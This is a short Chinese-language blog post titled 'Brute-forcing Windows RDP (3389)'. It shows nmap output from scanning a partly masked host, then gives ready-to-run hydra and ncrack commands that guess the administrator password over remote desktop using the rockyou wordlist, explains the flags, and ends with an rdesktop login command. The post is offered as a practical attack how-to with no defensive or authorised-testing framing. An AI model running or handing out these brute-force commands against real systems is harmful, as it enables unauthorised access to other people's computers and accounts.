 ```yaml
---
title: "暴力破解Windows RDP(3389)"
categories: [ "安全" ]
tags: [ "密码安全" ]
draft: false
slug: "暴力破解Windows RDP(3389)-暴力破解windowsrdp3389"
date: "2017-04-08 07:32:16"
---
```




RDP是远程桌面协议。

    $ nmap your_target
    Starting Nmap 7.01 ( https://nmap.org ) at 2016-09-20 17:29 CST
    Nmap scan report for ns514636.ip-192-95-xx.net (192.95.xx.xx)
    Host is up (0.28s latency).
    Not shown: 988 closed ports
    PORT      STATE    SERVICE
    135/tcp   filtered msrpc
    139/tcp   filtered netbios-ssn
    445/tcp   filtered microsoft-ds
    593/tcp   filtered http-rpc-epmap
    3389/tcp  open     ms-wbt-server   # 这个是远程桌面端口
    4444/tcp  filtered krb524
    6667/tcp  filtered irc
    49152/tcp open     unknown
    49153/tcp open     unknown
    49154/tcp open     unknown
    49155/tcp open     unknown
    49163/tcp open     unknown
    Nmap done: 1 IP address (1 host up) scanned in 28.14 seconds

## 使用hydra暴力破解：

    hydra -t 4 -V -l administrator -P /usr/share/wordlists/rockyou.txt rdp://your_target

    -t = TASKS run TASKS number of connects in parallel (per host, default: 16) RDP set to maximum of 4.
    -V = Verbose shows you the attempted passwords.
    -l = Username
    -P = Password list
    rdp:// = Port 3389

## 使用ncrack暴力破解：

    ncrack -p 3389 -v -user administrator -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx

    -p = Port number
    -v = Verbose shows you any found passwords in realtime
    -user = username
    -P = Password list

## 远程桌面登录：

    rdesktop your_target